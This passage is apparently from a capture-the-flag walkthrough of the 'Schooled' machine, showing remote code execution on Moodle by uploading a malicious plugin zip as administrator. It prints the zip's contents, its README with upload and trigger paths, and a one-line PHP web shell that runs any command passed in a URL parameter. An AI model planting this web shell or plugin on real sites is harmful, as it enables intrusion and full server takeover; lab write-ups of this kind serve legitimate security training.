 ### RCE

Following the PoC we go to `Site administration` => `Plugins` => `Install Plugins` => `Choose a file...` and select the `rce.zip` we downloaded from the repository.

[![plugin_upload](/img/schooled/plugin_upload.png)](/img/schooled/plugin_upload.png)

Unpacking the zip locally it contains a `README.md` with the path for the uploaded webshell.

```
$ find rce/
rce/
rce/lang
rce/lang/en
rce/lang/en/block_rce.php
rce/version.php
$ cat README.md
# Moodle_RCE
### From admin, goto:
*domain/admin/tool/installaddon/index.php*

Upload rce.zip
### Trigger RCE
*domain/blocks/rce/lang/en/block_rce.php?cmd=id*
#### Video PoC
$ cat rce/lang/en/block_rce.php
<?php system($_GET['cmd']); ?>
```

The README.md contains the path to the upload functionality and also the location the webshell get's placed after unzipping and installing it.
